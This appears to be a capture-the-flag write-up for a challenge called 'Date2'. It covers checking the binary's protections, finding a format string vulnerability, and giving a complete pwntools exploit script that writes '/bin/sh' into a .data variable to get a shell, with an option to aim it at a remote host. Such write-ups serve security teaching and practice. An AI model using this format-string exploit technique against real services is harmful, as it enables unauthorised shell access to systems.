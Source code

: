 # Date2

```
Description
No more buffer overflow this time

Author
Eth007
```


We got a binary, lets check the arch and the protections etc..:

![img](images/checksec.jpg)

So we can see nx and canary are enabled, pie is disabled and Partial Relro instead of Full Relro and again an 64 bit binary. Lets decompile it in ghidra:

![img](images/ghidra.jpg)

We can see that we dont have an overflow but we have an format string vulnerability. Here a good explanation: https://axcheron.github.io/exploit-101-format-strings/

We can also see in ghidra that the date_path is pointing to the .data section. So what we need to do is writing `/bin/sh` to `date_path` with the format string vuln. Pwntools have a good function `fmtstr_payload`, you can also do it manually, check the article above. 

We first need to find our offset:

![img](images/offset.jpg)

We find our offset at the 6th position
Our exploit script:
```py
from pwn import *


# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify GDB script here (breakpoints etc)
gdbscript = '''
'''.format(**locals())

# Binary filename
exe = './vuln'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'critical'

# Start program
io = start()

# Payload

date_path = elf.sym['date_path']
payload = fmtstr_payload(6, {date_path : '/bin/sh\x00'})

# Send the payload
io.sendlineafter(b'date?\n', payload)

# Got Shell?
io.interactive()
```

Lets run it:

![img](images/flag.jpg)

